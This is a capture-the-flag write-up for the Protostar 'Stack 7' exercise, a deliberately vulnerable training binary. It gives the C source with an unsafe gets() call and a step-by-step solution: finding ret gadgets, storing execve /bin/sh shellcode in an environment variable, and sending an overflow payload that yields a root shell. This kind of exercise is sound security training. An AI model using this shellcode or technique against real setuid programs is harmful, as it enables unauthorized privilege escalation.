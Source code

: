 # Protostar - Stack 7

### About ###

>Stack6 introduces return to .text to gain code execution.
>
>The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, >otherwise looking through objdump output will suffice.
>
>This level is at `/opt/protostar/bin/stack7`


### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

### Solution 

Since we used ROP in the previous exercise, this one will be pretty straightforward.
First, we need to find the address of a `ret` instruction.

```
user@protostar:/tmp$ objdump -d /opt/protostar/bin/stack7 | grep ret
 8048383:      	c3                     	ret
 8048494:      	c3                     	ret
 80484c2:      	c3                     	ret
 8048544:      	c3                     	ret
 8048553:      	c3                     	ret
 8048564:      	c3                     	ret
 80485c9:      	c3                     	ret
 80485cd:      	c3                     	ret
 80485f9:      	c3                     	ret
 8048617:      	c3                     	ret
```

We store the shellcode in an environment variable.

```
user@protostar:/tmp$ export SHELLCODE=$(python -c "print '\x90'*200+'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'")
user@protostar:/tmp$ ./getenv SHELLCODE
0xbffff8b8
```

Now, we can exploit the process.

```
user@protostar:/tmp$ (python -c "print 'A'*$((80))+'\x83\x83\x04\x08\xb8\xf8\xff\xbf'"; cat;) | /opt/protostar/bin/stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA�����
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```